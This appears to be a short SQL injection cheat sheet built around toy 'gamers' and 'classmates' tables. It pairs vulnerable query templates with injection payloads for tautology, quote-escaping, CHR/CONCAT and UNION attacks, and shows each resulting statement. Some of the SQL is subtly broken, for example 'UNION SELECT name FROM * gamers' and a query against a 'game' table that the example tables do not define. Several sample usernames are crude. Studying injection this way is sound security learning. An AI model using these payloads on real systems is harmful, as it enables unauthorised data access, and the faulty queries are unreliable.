 #### EXAMPLE TABLES
##### gamers

| id  | name      | game      |
| --- | --------- | --------- |
| 1   | dimASSik  | dota2beta |
| 2   | DOGLOB@L@ | csgo      |
| 3   | eblan     | deadlock  |
##### classmates

| id  | name    |
| --- | ------- |
| 1   | Alex CH |
| 2   | Vova F  |
| 3   | MK      |

#### default
##### task
get game column
##### query 
SELECT * FROM game WHERE name='$text'
##### injection
' OR 1=1 --
##### total
```sql
SELECT * FROM game WHERE name='' OR 1=1 --'
```

#### 2-field-quotes-escape
##### task
get game column

##### query
SELECT * FROM game WHERE name='$text1' AND id='\$text2'
##### injection
\\ 
OR 1=1 -- 
##### total
```sql
SELECT * FROM game WHERE name='\' AND id='OR 1=1 -- '
```

#### concat-quotes-not-allowed
##### task
get id of MK classmate
##### query
SELECT id FROM classmates WHERE name=$text
##### injection 
CONCAT(CHR(77), CHR(75))
##### explain
CHR() - char from ascii table by its number
##### total
```sql
SELECT id FROM classmates WHERE name=CONCAT(CHR(77), CHR(75))
-- equal to
SELECT id FROM classmates WHERE name='MK'
```
#### union
##### task
get name column of gamers table
##### query
SELECT game FROM gamers WHERE id='$text' LIMIT 1
##### injection
' UNION SELECT name FROM * gamers --
##### total
```sql
SELECT game FROM gamers WHERE id='' UNION SELECT name FROM * gamers --' LIMIT 1
```
  

#### union-with-less-number-of-columns
##### task
get classmates table
##### query
SELECT * FROM gamers WHERE id='$text'
##### injection
' UNION SELECT Null as rand_text, * FROM classmates --
##### total
```sql
SELECT * FROM gamers WHERE id='' UNION SELECT Null as rand_text, * FROM classmates --'
```